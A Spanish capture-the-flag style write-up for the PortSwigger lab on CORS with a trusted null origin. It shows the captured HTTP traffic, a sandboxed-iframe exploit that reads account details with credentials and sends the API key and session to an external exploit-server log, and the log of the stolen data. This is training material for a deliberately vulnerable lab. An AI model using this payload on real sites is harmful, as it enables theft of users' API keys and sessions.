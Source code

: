 ```yaml
---
description: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
---
```


# Lab #2 - CORS vulnerability with trusted null origin

Primero iniciamos sesion y capturamos la siguiente peticion:

```bash
GET /accountDetails HTTP/2
Host: 0a8f00470434b5eb82a6608000940062.web-security-academy.net
Cookie: session=xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00470434b5eb82a6608000940062.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i


```

Y la respuesta de esta peticion es la siguiente:

```bash
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "tiJ50DYM9AoTgxTZppTOS0cjWn3w7fHG",
  "sessions": [
    "xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe"
  ]
}
```

Se puede apreciar Access-Control-Allow-Credentials: true y por lo anterior, enviamos la siguiente peticion:

```
GET /accountDetails HTTP/2
Host: 0a8f00470434b5eb82a6608000940062.web-security-academy.net
Cookie: session=xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe
Origin: null
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00470434b5eb82a6608000940062.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i


```

Esto responde asi:

```
HTTP/2 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "tiJ50DYM9AoTgxTZppTOS0cjWn3w7fHG",
  "sessions": [
    "xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe"
  ]
}
```

Luego de lo anterior, se procede a crear el exploit para almacenarlo en el exploit server:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a8f00470434b5eb82a6608000940062.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0aef005304e8b51e824a5f4601be0065.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Y luego de enviar el exploit a la victima se recibe lo siguiente:

{% code overflow="wrap" %}
```bash
200.122.242.138 2024-06-28 20:17:04 +0000 "GET /log?key=%7B%0A%20%20%22username%22%3A%20%22wiener%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22tiJ50DYM9AoTgxTZppTOS0cjWn3w7fHG%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe%22%0A%20%20%5D%0A%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36"
```
{% endcode %}
